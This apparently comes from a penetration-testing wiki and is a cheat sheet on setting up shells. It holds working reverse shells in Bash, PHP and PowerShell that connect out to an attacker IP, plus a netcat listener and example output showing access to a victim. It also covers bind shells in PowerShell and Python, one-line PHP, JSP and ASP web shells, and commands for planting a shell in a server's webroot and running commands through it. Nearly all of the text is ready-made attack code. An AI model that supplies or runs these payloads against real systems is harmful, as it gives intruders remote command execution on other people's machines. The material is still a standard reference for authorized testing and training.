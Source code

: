```yaml
---
description: >-
  This is a collection of few useful scripts for creating reverse, bind and web
  shells.
---
```


# Setting up Shells

## Reverse Shells:

### Preparing the shell script:

#### Linux target:

{% tabs %}
{% tab title="Bash" %}
```bash
$ bash -c 'bash -i >& /dev/tcp/1.1.1.1/PORT 0>&1'
# OR 
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENEING PORT> >/tmp/f
```
{% endtab %}

{% tab title="PHP" %}
```php
# To be saved in a .php file.
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 <LISTENEING PORT> >/tmp/f"); ?>
```
{% endtab %}
{% endtabs %}

Other resources online will be helpful in other cases if we need another programming language to execute the script/code not only bash or PHP or even if the payloads above don't work.

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools" %}

{% embed url="https://www.revshells.com/" %}

{% embed url="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

#### Windows Target:

```powershell
target-host> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('1.1.1.1',PORT);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Setting up a listener on our attacking machine:

```bash
attacking-machine$ nc -lvnp 1234
   -l Listen mode.
   -v Verbose mode.
   -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
   -p 1234 Port number netcat is listening on.
```

#### Results of the injection:

```bash
attacker@attacking-machine$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.10.10] 41572

victim@target-host> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

{% hint style="success" %}
<mark style="color:green;">We successfully got a connection back now it's time to make it more stable and efficient.</mark>
{% endhint %}

### Upgrading TTY:

In order to upgrade our shell to a fully TTY let's follow these steps:

1. Python/stty:

```bash
victim@target$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

2. Raw + Echoless  mode:

```bash
victim@target-host$ ^Z
attacker@attacking-machine$ stty raw -echo && fg
[Enter]
[Enter]
victim@target-host$
```

{% hint style="info" %}
* <mark style="color:blue;">Raw mode:</mark> This means that characters are delivered to the application as soon as they are typed, without any line buffering or special interpretation (such as Ctrl+C for interrupt).
* <mark style="color:blue;">-echo:</mark> By turning off echoing, characters typed by the user won't be displayed on the screen.
{% endhint %}

3. Adjusting the Terminal size:

```bash
victim@target-host$ export TERM=xterm-256color
victim@target-host$ stty rows 67 columns 318
```

{% hint style="success" %}
<mark style="color:green;">Now we can use the full terminal features.</mark>
{% endhint %}

## Bind shells:

### Listener on the target machine:

#### Linux Target:

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

#### Windows target:

{% tabs %}
{% tab title="PowerShell" %}
```powershell
atrget-host> powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
{% endtab %}

{% tab title="Python" %}
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
{% endtab %}
{% endtabs %}

### Connecting to the target:

```bash
$ nc 10.10.10.10 1234
# Successful connection a shell is now open:
victim@target-host> id # Our command, since this is a windows target we should inject a cmdlet
uid=33(www-data) gid=33(www-data) groups=33(www-data) # server response
```

{% hint style="success" %}
We <mark style="color:green;">successfully</mark> got a remote shell on the target machine. If it isn't an unstable and "featureless" terminal, we can upgrade to a full TTY as in the [Reverse shells paragraph](setting-up-shells.md#id-1.-reverse-shells).
{% endhint %}

## Web Shells:

### Preparing the shell script:

{% tabs %}
{% tab title="PHP" %}
```php
<?php system($_REQUEST["cmd"]); ?>
```
{% endtab %}

{% tab title="Java" %}
```java
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
{% endtab %}

{% tab title="ASP" %}
```aspnet
<% eval request("cmd") %>
```
{% endtab %}
{% endtabs %}

### Injecting to the webroot:

<table><thead><tr><th>Web Server</th><th align="center">Default Webroot</th><th data-hidden align="center"></th></tr></thead><tbody><tr><td>Apache</td><td align="center">/var/www/html/</td><td align="center"></td></tr><tr><td>Nginx</td><td align="center">/usr/local/nginx/html/</td><td align="center"></td></tr><tr><td>IIS</td><td align="center">c:\inetpub\wwwroot\</td><td align="center"></td></tr><tr><td>XAMPP</td><td align="center">C:\xampp\htdocs\</td><td align="center"></td></tr></tbody></table>

We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a <mark style="color:red;">**Linux host running Apache**</mark>, we can write a **PHP** shell with the following command:

```bash
$ echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

### Execution:

1. Visit the shell.php page on the compromised website, and use `?cmd=id` to execute the `id` command:\
   `http://SERVER_IP:PORT/shell.php?cmd=id`\
   We'll get the result of the `id` command on the web page!&#x20;
2. Or Use `curl` command: `$ curl http://SERVER_IP:PORT/shell.php?cmd=id`

